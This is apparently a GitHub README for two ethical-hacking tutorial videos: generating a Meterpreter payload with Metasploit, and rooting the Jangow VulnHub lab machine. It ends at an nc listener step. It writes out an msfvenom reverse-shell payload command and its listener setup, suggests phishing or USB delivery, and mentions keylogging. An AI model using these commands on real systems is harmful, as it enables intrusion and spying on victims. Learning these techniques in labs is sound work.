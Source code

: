 # Overview
This repository contains two instructional videos that demonstrate penetration testing techniques. The first video covers generating a Meterpreter payload with Metasploit, and the second video demonstrates exploiting the Jangow virtual machine from VulnHub to gain root access. These videos are intended solely for educational purposes in ethical hacking and authorized penetration testing scenarios.
--
## Video 1: Generating a Meterpreter Payload with Metasploit
https://github.com/user-attachments/assets/18f45dda-cb96-4489-96e9-89557210a9a5
### Description
This video demonstrates how to use the Metasploit Framework to generate a malicious Windows Meterpreter payload and exploit a target system. It guides you through the process of setting up a listener, delivering the payload, and using the Meterpreter session for post-exploitation activities.
### Set Up the Listener
Open Metasploit and configure the multi-handler exploit to wait for the incoming connection from the payload.
### Steps
1. **Generate the Payload**  
   We use `msfvenom` to create a malicious Windows executable that establishes a reverse shell connection.
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your-ip> LPORT=<your-port> -f exe > payload.exe
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <your-ip>
set LPORT <your-port>
exploit

### Deliver the Payload
Transfer the payload.exe file to the target system using a suitable method (e.g., USB, phishing).

Establish a Meterpreter Session
When the payload is executed on the target, a Meterpreter session is established. This allows for advanced post-exploitation tasks such as file access, keylogging, and privilege escalation.




## Video 2: Exploiting the Jangow VM from VulnHub

https://github.com/user-attachments/assets/30f381ed-42e2-4599-830c-6dd8d6865c73

### Description
In this video, we demonstrate the exploitation of the Jangow VM from VulnHub. The goal is to identify vulnerabilities, gain a reverse shell, and escalate privileges to root. The video simulates a real-world penetration testing workflow.

#### Steps
1. Reconnaissance and Scanning
Use nmap to scan the target for open ports and services.
nmap -sC -sV -oN scan.txt <target-ip>

Analyze the results to identify potential attack vectors.
2. Exploitation
Based on the scan, identify vulnerabilities in services running on the target machine.
Craft or use a suitable exploit to gain initial access. For example:
nc -lvnp <your-port>
